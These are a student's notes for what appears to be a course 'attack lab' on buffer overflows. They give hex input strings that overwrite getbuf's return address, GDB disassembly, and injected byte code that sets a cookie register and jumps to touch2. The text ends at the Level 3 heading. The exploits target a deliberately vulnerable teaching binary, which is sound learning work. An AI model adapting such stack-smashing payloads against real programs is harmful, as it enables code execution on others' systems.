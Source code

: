 # Buffer Overflow Attack Notes

:dagger: => :computer:

## LEVEL 1

By testing how many bytes the `getbuf` can receive most, and reading the assembly code, we derive that it could take up to 55 characters wothout exiting abnormally.

The address of `touch1`: `00000000004016ed`. We need to insert it to `(%rsp)` right after it called `getbuf`.

The string we need to input in hex representation is shown below:

```txt
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 ed 16 40
```

Or... Add some magic.

```txt
54 68 65 20 62 69 67 20 62 72
6f 74 68 65 72 20 69 73 20 77
61 74 63 68 69 6e 67 20 68 69
6d 21 20 59 6f 75 27 6c 6c 20
62 65 20 73 65 6e 74 20 74 6f
20 31 30 31 2e 2e ed 16 40
```

By running the following command, we could input the target string to `stdin`:

```sh
./hex2raw < exploit.txt > exploit-raw.txt
./ctarget < exploit-raw.txt
```

We get the first hacking attempt done!

## Let's go to LEVEL 2

In this level. We have two things to do.

- Jump to cookie `0x4016d7`
- Change the parameter in touch2 to `cookie`

Find out the `%rsp` value in `getbuf`.

```sh
(gdb) b getbuf
Breakpoint 1 at 0x4016d7: file buf.c, line 12.
(gdb) run -q
Starting program: /mnt/c/star/computer-systems/target65/ctarget -q
Cookie: 0x110dfc17

Breakpoint 1, getbuf () at buf.c:12
(gdb) nexti
14      in buf.c
(gdb) disas
Dump of assembler code for function getbuf:
   0x00000000004016d7 <+0>:     sub    $0x38,%rsp
=> 0x00000000004016db <+4>:     mov    %rsp,%rdi
   0x00000000004016de <+7>:     callq  0x401927 <Gets>
   0x00000000004016e3 <+12>:    mov    $0x1,%eax
   0x00000000004016e8 <+17>:    add    $0x38,%rsp
   0x00000000004016ec <+21>:    retq   
End of assembler dump.
(gdb) p $rsp
$4 = (void *) 0x5567c608
```

`%rsp` in getbuf is `0x5567c608`.  
If `Gets` would return to it, we can inject exploit code in `%rsp` and then execute them.  
To call `touch2` while changing the parameter. We need to execute following instructions:

```s
mov $0x110dfc17, %rdi   # mov cookie to param1
pushq $0x40171b         # push address of touch2
ret
```

whose byte code is:

```s

asm-exploit.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 17 fc 0d 11 	mov    $0x110dfc17,%rdi
   7:	68 1b 17 40 00       	pushq  $0x40171b
   c:	c3                   	retq   
```

We need to inject these byte code to `%rsp` and overwrite the return address after 56 bytes.

```txt
48 c7 c7 17 fc 0d 11 68
1b 17 40 00 c3          /* exploit byte code, 13 bytes */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00
08 c6 67 55             /* after Gets, return to %rsp, 4 bytes */
```

Also, adding some magic :joy:

```txt
48 c7 c7 17 fc 0d 11 68
1b 17 40 00 c3          /* exploit byte code, 13 bytes */
48 6f 70 65 2c 61 20 67 /* Hope,a good thing. No good things ever dies */
6f 6f 64 20 74 68 69 6e
67 2e 20 4e 6f 20 67 6f
6f 64 20 74 68 69 6e 67
73 20 65 76 65 72 20 64
69 65 73
08 c6 67 55             /* after Gets, return to %rsp, 4 bytes */
```

## LEVEL 3
